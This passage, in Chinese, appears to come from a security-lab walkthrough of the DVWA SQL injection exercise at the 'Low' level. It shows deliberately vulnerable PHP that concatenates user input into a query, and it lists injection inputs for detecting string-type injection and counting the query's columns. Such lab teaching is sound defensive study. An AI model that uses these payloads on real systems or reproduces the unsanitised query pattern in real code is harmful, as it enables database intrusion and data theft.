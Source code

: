 ### Low

**服务器端核心代码**
```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
	// Get input
	$id = $_REQUEST[ 'id' ];

	// Check database
	$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

	// Get results
	while( $row = mysqli_fetch_assoc( $result ) ) {
		// Get values
		$first = $row["first_name"];
		$last  = $row["last_name"];

		// Feedback for end user
		$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
	}

	mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```
由代码可知,通过 REQUEST 方式接受传递的参数 id,再通过 sql 语句带入查询,对来自客户端的参数 id 没有进行任何的检查与过滤,存在明显的 SQL 注入.

**漏洞利用**
1. 判断是否存在注入,注入是字符型还是数字型

    输入 `1`,查询成功:

    ![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa42.png)

    输入 `1'and '1' ='2`,查询失败,返回结果为空:

    ![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa43.png)

    输入 `1'or '1'='1`,查询成功:

    ![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa44.png)

    返回了多个结果,说明存在字符型注入.

    注: 关于数字型,字符型,搜索型的区别可以参考如下文章:https://blog.csdn.net/change518/article/details/8116920

2. 猜解 SQL 查询语句中的字段数

    输入 `1' or 1=1 order by 1 #`,查询成功:

    ![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa45.png)

    输入 `1' or 1=1 order by 2 #`,查询成功
    输入 `1' or 1=1 order by 3 #`,查询失败:

    ![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa46.png)

